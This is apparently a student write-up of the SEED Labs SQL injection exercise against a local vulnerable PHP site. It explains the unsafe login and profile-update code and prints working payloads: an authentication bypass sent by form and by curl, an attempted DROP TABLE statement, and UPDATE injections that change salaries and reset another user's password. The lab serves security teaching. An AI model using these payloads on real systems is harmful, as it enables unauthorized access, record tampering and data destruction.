






# Trabalho realizado nas semanas 8 e 9

## Lab Setup

> The instructions in [SQL Injection](https://seedsecuritylabs.org/Labs_20.04/Files/Web_SQL_Injection/Web_SQL_Injection.pdf) should be followed. Below is a sumary.
>
> - The IP address for the web application container is10.9.0.5, and TheURL for the web application is http://www.seed-server.com
>
>   Map  this  hostname  to  the  container’s  IP  address using `sudo nano /etc/hosts` and writing `10.9.0.5        www.seed-server.com`
>
> - Container Setup and Commands
>
>   ```shell
>   docker-compose build 	# Build the container image
>   docker-compose up     # Start the container
>   docker-compose down   # Shut down the container
>     
>   # Aliases for the Compose commands above
>   dcbuild       # Alias for: docker-compose build
>   dcup          # Alias for: docker-compose up
>   dcdown        # Alias for: docker-compose down
>   ```
>
>   We first need to use the `docker ps` command to find out the ID ofthe container, and then use `docker exec` to start a shell on that container. We have created aliases forthem in the `.bashrcfile`.
>
>   ```shell
>   # dockps        # Alias for: docker ps --format "{{.ID}}  {{.Names}}"
>   #docksh <id>   // Alias for: docker exec -it <id> /bin/bash// The following example shows how to get a shell inside hostC
>   # Note: If a docker command requires a container ID, you do not need to
>   #       type the entire ID string. Typing the first few characters will
>   # 		be sufficient, as long as they are unique among all the containers.
>   [11/16/23]seed@VM:~/.../Labsetup$ dockps
>   8f69fd602305  mysql-10.9.0.6
>   43b38a0a6fb1  www-10.9.0.5
>   [11/16/23]seed@VM:~/.../Labsetup$ docksh 43
>   root@43b38a0a6fb1:/# 
>   ```


## Task 1

> Objective: Get Familiar with SQL Statements

Our database contains the table below.



The database when the container is taken down is saved to `/var/lib/mysql`.  To start from a clean database, you can remove this folder: `sudo rm -rf mysql_data`. 

For starters it was necessary to connect to the MySQL container and start a instance of the `mysql` client.



```shell
// Inside the MySQL container
# mysql -u root -pdees
```

```mysql
mysql> use sqllab_users;
Database changed
mysql> show tables;
+------------------------+
| Tables_in_sqllab_users |
+------------------------+
| credential             |
+------------------------+
```

As indicated in the Lab guide, we started by checking all the profile informationof the employee Alice.




## Task 2

The PHP code `unsafehome.php`, located in the `/var/www/SQL_Injectiondirectory`, is used to conduct the user authentication in our website http://www.seed-server.com/. The following code snippet show how users are authenticated.

```sql
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password
		FROM credential 
		WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);

-- The following is Pseudo Code
if(id != NULL) {
    if(name==’admin’) {
        return All employees information;
    } else if (name !=NULL){
        return employee information;
    }
} else {
	Authentication Fails;
}
```

***

### SQL Injection Attack from webpage

As can be seen the authentication is done using raw SQL statements obtained from our form through a GET request. The query used(`SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password FROM credential WHERE name= and Password=’$hashed_pwd’`) is not sanitized, meaning that by using the input `admin'#` the folowing check for the password is commented out. The server runs the following query:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password 
FROM credential 
WHERE name='admin' # and Password=’$hashed_pwd’
```



***

### SQL Injection Attack from command line

When running `curl 'www.seed-server.com/unsafe_home.php?username=alice&Password=11'`, we obtain:



> One thing that is worth mentioning is that if you want to include multiple parameters in HTTP requests, you need to put the URL and the parameters between a pair of single quotes; otherwise, the special characters used to separate parameters (such as &) will be interpreted by the shell program, changing the meaning of the command.
>
> If you need to include special characters in the *username* or *Password* fields, you need to encode them properly, or they can change the meaning of your requests. If you want to include single quote in those fields, you should use *%27* instead; if you want to include white space, you should use %20.  In this task,you do need to handle HTTP encoding while sending requests using curl.

Therefore, our injection attack from the command line should be done by running:

`curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password='`.

This will do the same SQL injection attack as described above.

***

### Append a new SQL statement

>  In SQL, semicolon (;) is used to separate two SQL statements. Please try to run two SQL statements via the login page.

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

When I attempt to replicate the attack, I receive the following error message.

```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'DROP TABLE IF EXISTS credentials; #' and Password='da39a3ee5e6b4b0d3255bfef95601' at line 3]\n
```

According to the *PHP* documentation found *online*, MySQL optionally allows having multiple statements in one statement string, but it requires special handling.  Multiple statements or multi queries must be executed   with [mysqli::multi_query()](https://www.php.net/manual/en/mysqli.multi-query.php). Typically, the databases have features that block the injection of multiple queries in order to prevent attacks.

More information on the topic can be found in [Multiple Statements](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), [OWASP]([OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)) and [mysqli::multi_query](https://www.php.net/manual/en/mysqli.multi-query.php). 


## Task 3

> Objective: SQL Injection Attack on UPDATE Statement
>
> When employees update their information through the Edit Profile page, the following SQL UPDATE query will be executed. The PHP code implemented in `unsafeeditbackend.php` file is used to up-date employee’s profile information. The PHP file is located in the `/var/www/SQLInjectiondirectory`.
>
> ```php
> $hashed_pwd = sha1($input_pwd);
> $sql = "UPDATE credential
> 	SET nickname=’$input_nickname’,
> 	email=’$input_email’,
> 	address=’$input_address’,
> 	Password=’$hashed_pwd’,
> 	PhoneNumber=’$input_phonenumber’
> WHERE ID=$id;";
> $conn->query($sql);
> ```

### Modify your own salary

Likewise, the queries used are once again unsafe and inappropriately managed. Therefore in a similar fashion to the attacks in Task 2, the update can be modified using `933667378',Salary='87000` in phone  number field of our form.

### Modify other people’ salary and modify other people’ password

The update can simply be done introducing in the same input field `912378',Salary='-9999999' WHERE Name='Boby'#`. This will comment out the previous WHERE and replacing it the custom one that we want to use for Alice's boss, Boby. 

To modify his password, we should use `912378', password='e812ba8d00b270ef3502bb53ceb31e8c5188f14e' WHERE name='Boby'#`. Here the password is changed to 'hacked' and introduced hashed in SHA1 format.

Below can be seen that both the salary change and the login with the new email are happening as expected.

